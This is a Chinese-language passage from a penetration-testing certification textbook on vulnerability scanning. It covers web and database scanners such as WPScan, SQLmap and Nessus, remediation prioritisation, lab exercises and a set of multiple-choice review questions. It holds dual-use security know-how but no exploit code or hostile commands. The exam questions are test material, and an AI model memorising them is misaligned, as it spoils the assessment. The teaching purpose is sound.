您还可能会发现使用专门为您环境中的 Web 应用程序设计的工具很有帮助。例如，许多组织使用流行的 WordPress 内容管理系统。Figure 4.14 显示了 `WPScan` 的屏幕截图，这是一个专门针对 WordPress 安装设计的漏洞扫描器。



FIGURE 4.13 Running a Wapiti scan

大多数组织确实使用 Web 应用程序扫描器，但他们选择使用提供高级功能和用户友好界面的商业产品。虽然市场上有专用 Web 应用程序扫描器，例如 Nikto，但许多公司选择使用传统网络漏洞扫描器（如 Nessus、Qualys 和 Nexpose）的 Web 应用程序扫描功能。Figure 4.15 显示了 Nessus 用于 Web 扫描角色的示例。



FIGURE 4.14 WPScan WordPress vulnerability scanner



FIGURE 4.15 Nessus web application scanner

除了使用自动化 Web 应用程序漏洞扫描器外，还经常进行手动扫描，以识别自动化扫描器可能遗漏的问题。手动测试可能是完全手动的，手动插入输入，但测试人员通常使用称为 `interception proxies` 的工具，这些工具允许他们捕获浏览器和 Web 服务器之间的通信。一旦代理捕获了信息，测试人员就可以修改发送和接收的数据。

像 Tamper Data for Chrome 或 Firefox 这样的 Web 浏览器插件代理可以让您在活动连接期间修改会话值，如 Figure 4.16 所示。使用拦截代理爬取应用程序可以深入了解 Web 应用程序使用的数据以及如何攻击该应用程序。



FIGURE 4.16 Tamper Data session showing login data

有许多流行的代理工具，从特定于浏览器的插件（如 Tamper Data 和 HttpFox）到与浏览器无关的工具（如作为专用代理运行的 Fiddler）。此外，Burp Suite 等工具提供一系列功能，包括应用程序代理、爬虫、Web 应用程序扫描以及其他旨在使 Web 应用程序渗透测试更容易的高级工具。

# 数据库漏洞扫描

数据库包含组织最敏感的信息之一，是攻击者的有利目标。虽然大多数数据库受防火墙保护，免受直接外部访问，但 Web 应用程序为这些数据库提供了一个入口，攻击者可能利用基于数据库的 Web 应用程序针对数据库发起攻击，包括 SQL 注入攻击。

数据库漏洞扫描器是允许渗透测试人员、其他安全专业人员和攻击者扫描数据库和 Web 应用程序以查找可能影响数据库安全性的漏洞的工具。`SQLmap` 是一种常用的开源数据库漏洞扫描器，允许安全管理员探测 Web 应用程序中的数据库漏洞。Figure 4.17 显示了 SQLmap 扫描 Web 应用程序的示例。



FIGURE 4.17 Scanning a database‐backed application with SQLmap

## 开发修复工作流程


漏洞扫描通常会产生相当稳定的安全问题流，需要网络安全专业人员、系统工程师、软件开发人员、网络工程师和其他技术人员关注。对环境的初始扫描可能会产生大量需要优先处理并最终修复的问题。组织应制定修复工作流程，以便对漏洞进行优先级排序，并跟踪检测、修复和测试周期中所示的修复情况，如 图 4.18 所示。



图 4.18 漏洞管理生命周期

此修复工作流程应尽可能自动化，前提是组织可用的工具。许多漏洞管理产品包含内置工作流机制，允许网络安全专家跟踪漏洞修复过程，并在测试确认修复成功后自动关闭漏洞。虽然这些工具很有帮助，但其他组织通常选择不使用它们，而是倾向于在组织用于其他技术问题的 IT 服务管理 (ITSM) 工具中跟踪漏洞。这种方法避免了要求技术人员使用两个不同的问题跟踪系统，并提高了对修复流程的合规性。然而，它还需要选择与组织的 ITSM 工具（或反之）原生集成的漏洞管理工具，或者在不存在集成的情况下在工具之间构建集成。

漏洞管理的一个重要趋势是转向 `ongoing scanning` 和 `continuous monitoring`。持续扫描摒弃了按计划每周或每月测试系统的定期扫描方法，而是将扫描仪配置为按轮换基础扫描系统，在扫描资源允许的频率内检查漏洞。这种方法可能带宽和资源密集，但它确实能更早地检测漏洞。持续监控结合基于代理的漏洞检测数据，并在安全相关配置更改发生后立即将其报告给漏洞管理平台，提供分析这些更改以发现潜在漏洞的能力。

## 优先处理修复

当网络安全分析人员处理漏洞扫描报告时，他们必须就优先处理修复做出重要决策，以便利用有限资源解决对组织构成最大危险的问题。优先处理漏洞没有一成不变的公式。相反，分析人员在选择首先关注哪些问题时，必须考虑几个重要因素。

以下是修复优先级决策过程中的一些最重要因素：

*   `Criticality of the Systems and Information Affected by the Vulnerability` 关键性措施应考虑机密性、完整性和可用性要求，具体取决于漏洞的性质。例如，在可用性方面，如果漏洞允许拒绝服务攻击，网络安全分析人员应考虑如果系统因攻击而无法使用，对组织的影响。在机密性方面，如果漏洞允许从数据库窃取存储的信息，网络安全分析人员应考虑如果该信息被窃取，对组织的影响。最后，在完整性方面，如果漏洞允许对信息进行未经授权的更改，网络安全分析人员应考虑这些更改的影响。

*   `Difficulty of Remediating the Vulnerability` 如果修复漏洞需要投入过多的人力或财务资源，则应将其纳入决策过程。网络安全分析人员可能会发现，他们可以用解决首要问题所需的相同投资来修复优先级为 2 到 6 的五个问题。这并不意味着他们应该仅根据成本和难度做出决定，但这是优先级过程中的一个考虑因素。

*   `Severity of the Vulnerability` 问题越严重，纠正该问题就越重要。分析人员可以参考通用漏洞评分系统 (CVSS) 来为不同漏洞提供相对严重性排名。请记住，本章前面提到过，CVSS 是 SCAP 的一个组成部分。

*   `Exposure of the Vulnerability` 网络安全分析人员还应考虑漏洞暴露于潜在利用的程度。例如，如果内部服务器存在严重的 SQL 注入漏洞，但该服务器仅可从内部网络访问，那么修复该问题的优先级可能低于修复一个暴露在互联网上、因此更容易受到外部攻击的较不严重的问题。

确定修复漏洞的最佳顺序更多是一门艺术而非科学。网络安全分析人员必须评估其可用的所有信息，并就将为其组织提供最大安全价值的修复顺序做出明智决策。

## 测试和实施修复

在部署任何修复活动之前，网络安全专业人员和其他技术人员应在沙箱环境中彻底测试其计划的修复。这使技术人员能够识别修复的任何意外副作用，并降低修复活动干扰业务运营或对组织信息资产造成损害的可能性。

## 克服漏洞扫描的障碍

漏洞扫描通常是网络安全专业人员的高优先级任务，但组织中的其他技术人员可能不将其视为一项重要活动。网络安全分析人员应了解其他人对漏洞扫描提出的障碍以及解决这些问题的方法。一些需要克服的常见障碍如下：

*   `Service Degradations` 技术专业人员最常提出的漏洞扫描障碍。漏洞扫描会消耗网络带宽并占用扫描目标系统的资源。这可能会降低系统功能，并存在中断业务流程的风险。网络安全专业人员可以通过调整扫描以消耗较少带宽，并将扫描时间与运营计划协调来解决这些问题。Web 应用程序的漏洞扫描还可以使用查询限流来限制扫描器向单个 Web 应用程序发送请求的速率。图 4.19 显示了管理员如何在 Qualys 中调整扫描强度。

    

    图 4.19 Qualys 扫描性能设置

*   `Customer Commitments` 可能会对漏洞扫描造成障碍。与客户的 `谅解备忘录 (MOUs)` 和 `服务级别协议 (SLAs)` 可能会产生组织必须履行的正常运行时间、性能和安全期望。如果扫描会对组织履行客户承诺的能力产生负面影响，客户可能需要参与决策过程。


# IT 治理与变更管理流程

IT 治理与变更管理流程可能会在为扫描支持所需的配置更改时制造官僚障碍。网络安全分析师应在组织治理流程范围内工作，以获取支持漏洞管理计划所需的资源和支持。

## 摘要

漏洞扫描为渗透测试人员在开始测试时提供了一个宝贵的信息来源。漏洞扫描的结果可以识别潜在可利用的系统，甚至可能指向特定的漏洞利用，这些漏洞利用将允许攻击者在网络上立足，或在获得初始访问权限后提升权限。

任何进行漏洞扫描的人都应首先识别扫描要求。这包括审查可能的扫描目标并选择扫描频率。一旦做出这些早期决策，分析师可以定期配置和执行漏洞扫描，最好是通过使用自动化扫描调度系统。

在 第 5 章，“分析漏洞扫描”中，你将学习如何分析漏洞扫描的结果，并在渗透测试中使用这些结果。

## 考试要点

**漏洞扫描自动化了渗透测试中一些繁琐的工作。** 自动化漏洞扫描器允许渗透测试人员快速检查大量系统中是否存在已知漏洞。尽管这大大加快了渗透测试人员的工作速度，但扫描也可能会吸引网络安全专业人员的注意。

**扫描目标应基于发现扫描和 OSINT 的结果来选择。** 发现扫描为渗透测试人员提供了一种自动化的方式来识别网络上存在的主机并构建资产清单。然后，他们可以根据扫描目标推进渗透测试目标的可能性来选择扫描目标。这可能包括关于数据分类、系统暴露、提供的服务以及系统作为测试、开发或生产环境的状态的信息。

**配置扫描设置允许定制以满足测试人员的要求。** 渗透测试人员可以通过配置敏感级别、包含和排除插件，并使用凭证扫描和基于服务器的代理收集的信息来补充基本网络扫描，从而定制扫描。团队还可以从多个扫描视角进行扫描，提供网络的不同视图。

**漏洞扫描器需要像任何其他技术工具一样进行维护。** 负责维护漏洞扫描系统的管理员应执行两项重要的管理任务。首先，他们应定期更新扫描器软件以纠正安全问题并添加新功能。其次，他们应频繁更新插件，以提供其环境中最准确和最新的漏洞扫描。

**组织应使用一致的修复工作流程来识别、修复和测试漏洞。** 修复工作流程应尽可能自动化，并与 IT 组织使用的其他工作流技术集成。随着技术人员修复漏洞，他们应通过安全测试验证修复是否有效，并在跟踪系统中关闭漏洞。渗透测试 SOW 应仔细定义测试期间检测到的漏洞将如何以及何时输入组织的修复工作流程。

**渗透测试人员必须准备好克服 IT 团队其他成员对扫描的反对意见。** 对漏洞扫描的常见反对意见包括扫描导致的服务降级对 IT 服务的影响、对 MOU 和 SLA 中客户承诺的影响，以及使用 IT 治理和变更管理流程。

## 实验练习

## 活动 4.1：安装漏洞扫描器

在此实验中，你将在系统上安装 Nessus 漏洞管理软件包。

此实验需要访问一个可以用于安装 Nessus 的 Linux 系统（最好是 Ubuntu、Debian、Red Hat、SUSE 或 Fedora）。

### 第一部分：获取 Nessus Essentials 激活码

访问 Nessus 网站 (`https://www.tenable.com/products/nessus/nessus-essentials`) 并填写表格以获取激活码。

保存包含该代码的电子邮件，以便在安装和激活过程中使用。

### 第二部分：下载 Nessus 并在系统上安装

访问 Nessus 下载页面 (`https://www.tenable.com/downloads/nessus`) 并下载适合你系统的 Nessus 版本。

按照 `https://docs.tenable.com/Nessus.htm` 上提供的文档安装 Nessus。

通过登录到你的 Nessus 服务器来验证安装是否成功。

## 活动 4.2：运行漏洞扫描

在此实验中，你将针对你选择的服务器运行漏洞扫描。请务必注意，未经许可绝不应运行漏洞扫描。

你需要访问在活动 4.1 中构建的漏洞扫描服务器以及用于扫描的目标服务器。如果你目前没有可以扫描的服务器，可以使用云服务提供商（例如 Amazon Web Services、Microsoft Azure 或 Google Compute Platform）构建一个。你也可以选择扫描家庭网络作为替代方案。你可能会惊讶于在“智能”家居设备中潜伏的一些漏洞！

针对你的服务器进行漏洞扫描并保存生成的报告。如果你需要帮助，请查阅 Nessus 文档。你需要此漏洞扫描的报告来完成下一章中的活动。

## 活动 4.3：制定渗透测试漏洞扫描计划

在本章开头的场景中，你被要求思考如何在 MCDS, LLC 渗透测试中部署各种漏洞扫描技术。

使用你在本章中获得的知识，制定一个漏洞测试计划，回答以下问题：

*   你将如何为 MCDS 网络制定漏洞扫描范围？
*   你将对扫描施加哪些限制？你是否会将扫描限制在根据 Nmap 结果怀疑在 MCDS 主机上运行的服务，还是会进行全面扫描？
*   你是否会尝试以隐蔽的方式运行扫描，以避免被 MCDS 网络安全团队发现？
*   你是否会将网络漏洞扫描与 Web 应用程序扫描和/或数据库扫描相结合？
*   扫描能否同时实现多个目标？例如，扫描结果是否可用于检测与组织标准的配置合规性？或者它们是否可能输入自动化修复工作流程？

使用这些问题的答案为你的渗透测试创建一个漏洞扫描计划。

## 复习问题

答案可在附录中找到。

1. Ryan 正在进行渗透测试，目标是一台数据库服务器。以下哪种工具最能帮助他检测该服务器上的漏洞？

    1. Nessus
    2. Nikto
    3. SQLmap
    4. OpenVAS

2. Gary 正在对一个组织进行黑盒渗透测试，并获得了该组织已运行的漏洞扫描结果用于他的测试。以下哪种扫描最有可能在他的测试范围内为他提供有用的信息？

    1. 隐蔽内部扫描
    2. 全面内部扫描
    3. 隐蔽外部扫描
    4. 全面外部扫描


3. 白盒渗透测试人员在进行漏洞扫描之前，可以使用什么工具来帮助识别网络中存在的系统？

1. 资产清单
2. Web 应用程序评估
3. 路由器
4. DLP

4. Tonya 正在为受 PCI DSS 合规性标准约束的系统配置漏洞扫描。她必须以最低频率进行多少次扫描？

1. 每日
2. 每周
3. 每月
4. 每季度

5. 以下哪一项不是漏洞扫描工具的示例？

1. Qualys
2. Snort
3. Nessus
4. OpenVAS

6. 以下哪种技术在组织内部使用时，最不可能干扰外部渗透测试人员获得的漏洞扫描结果？

1. 加密
2. 防火墙
3. 容器化
4. 入侵防御系统

7. Renee 正在配置她的漏洞管理解决方案，以对网络上的服务器进行凭据扫描。她应该向扫描器提供哪种类型的账户？

1. 域管理员
2. 本地管理员
3. Root
4. 只读

8. Jason 正在撰写关于软件产品中潜在安全漏洞的报告，并希望使用标准化的产品名称，以确保其他安全分析师能够理解该报告。Jason 可以求助于哪个 SCAP 组件？

1. CVSS
2. CVE
3. CPE
4. OVAL

9. Ken 计划作为渗透测试的一部分对组织进行漏洞扫描。他正在进行黑盒测试。什么时候适合对网络进行内部扫描？

1. 在测试的规划阶段
2. 合同签署后立即
3. 在获得管理员许可后
4. 在攻破内部主机后

10. 哪种类型的组织最有可能受到要求其进行漏洞扫描的法律的影响？

1. 银行
2. 医院
3. 政府机构
4. 医生办公室

11. 以下哪一类系统在漏洞扫描期间最有可能被中断？

1. 外部 Web 服务器
2. 内部 Web 服务器
3. IoT 设备
4. 防火墙

12. 什么术语描述了组织在其计算环境中容忍风险的意愿？

1. 风险格局
2. 风险偏好
3. 风险等级
4. 风险适应

13. 以下哪个因素最不可能影响漏洞扫描计划？

1. 法规要求
2. 技术限制
3. 业务限制
4. 人员可用性

14. Adam 正在对组织进行渗透测试，并正在审查应用程序的源代码以查找漏洞。Adam 正在进行哪种类型的代码测试？

1. 变异测试
2. 静态代码分析
3. 动态代码分析
4. 模糊测试

15. Ryan 计划使用危险插件对业务关键系统进行漏洞扫描。初始扫描的最佳方法是什么？

1. 针对生产系统运行扫描以获得尽可能现实的结果。
2. 在营业时间内运行扫描。
3. 在测试环境中运行扫描。
4. 不要运行扫描以避免干扰业务。

16. 以下哪项活动不是漏洞管理生命周期的一部分？

1. 检测
2. 修复
3. 报告
4. 测试

17. 哪种漏洞扫描方法会纳入运行在目标服务器上的代理提供的信息？

1. 持续监控
2. 持续扫描
3. 按需扫描
4. 警报

18. Brian 正在为联邦信息系统确定适当的影响分类，以便为该系统规划漏洞扫描控制措施。在咨询管理层后，他发现该系统包含信息，如果被不当披露，将对组织产生严重的不利影响。该系统应如何分类？

1. 低影响
2. 中等影响
3. 高影响
4. 严重影响

19. Jessica 正在阅读组织不同部分使用不同产品运行的漏洞扫描报告。她负责分配修复资源，并且难以对来自不同来源的问题进行优先级排序。哪个 SCAP 组件可以帮助 Jessica 完成这项任务？

1. CVSS
2. CVE
3. CPE
4. XCCDF

20. Sarah 正在进行渗透测试，并在应用程序中发现了一个关键漏洞。她接下来应该做什么？

1. 将漏洞报告给客户的 IT 经理。
2. 查阅 SOW。
3. 将漏洞报告给开发人员。
4. 利用该漏洞。

WileyPRE

# 第 5 章

分析漏洞扫描

渗透测试人员花费大量时间分析和解释漏洞扫描器生成的报告，以寻找可能被利用以在目标系统上立足的漏洞。尽管扫描器在自动化漏洞识别的手动工作方面非常有效，但它们生成的结果需要经过训练的分析师进行解释。在本章中，您将了解渗透测试人员如何将其知识和经验应用于漏洞扫描报告的审查。

## 审查和解释扫描报告

漏洞扫描报告为分析师提供了大量信息，以协助对报告的解释。除了 第 4 章，“漏洞扫描”中所示的高级别报告示例之外，漏洞扫描器还提供了它们识别的每个漏洞的详细信息。图 5.1 显示了 Nessus 扫描器报告的单个漏洞示例。

